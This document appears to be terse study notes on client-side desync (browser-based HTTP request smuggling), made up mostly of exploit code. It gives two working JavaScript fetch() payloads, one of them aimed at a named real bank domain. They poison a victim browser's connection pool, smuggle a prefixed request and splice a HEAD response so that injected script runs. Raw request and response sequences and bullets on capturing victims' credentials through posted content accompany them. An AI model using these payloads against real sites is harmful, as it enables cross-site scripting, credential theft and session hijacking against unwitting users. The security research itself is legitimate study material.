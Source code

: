
if an endpoint is taken by surprise that its not expecting a Content-Length leads to not reading the body, got appended to the next connection request from the victim browser.

```js
fetch('https://example.com/b/', {  
 method: 'POST',  
 body: "GET /hopefully404 HTTP/1.1\r\nX: Y", // malicious prefix  
 mode: 'no-cors', // ensure connection ID is visible  
 credentials: 'include' // poison 'with-cookies' pool  
}).then(() => {  
 location = 'https://example.com/' // use the poisoned connection  
})
```


- we can exploit this by storing the credentials in any like posting a comment/blog based on the site functionality.
- javascript resource poisoning via host header redirect similar to request tunneling
- head method to splice the response and execute the javascript
  
```js
fetch('https://www.capitalone.ca/assets', {  
    method: 'POST',  
  
    // use a cache-buster to delay the response  
    body: `HEAD /404/?cb=${Date.now()} HTTP/1.1\r\nHost: www.capitalone.ca\r\n\r\nGET /x?x=<script>alert(1)</script> HTTP/1.1\r\nX: Y`,  
    credentials: 'include',  
    mode: 'cors' // throw an error instead of following redirect  
}).catch(() => {  
    location = 'https://www.capitalone.ca/'  
})
```

- request sequence

```http
POST /assets HTTP/1.1  
Host: www.capitalone.ca  
Content-Length: 67  
  
HEAD /404/?cb=123 HTTP/1.1  
  
GET /x?<script>evil() HTTP/1.1  
X: Y

----- request 2 ----

GET / HTTP/1.1  
Host: www.capitalone.ca
```

- response sequence

```http
HTTP/1.1 301 Moved Permanently  
Location: /assets/

---- response ----

HTTP/1.1 404 Not Found  
Content-Type: text/html  
Content-Length: 432837  
  
HTTP/1.1 301 Moved Permanently  
Location: /x/?<script>evil()
```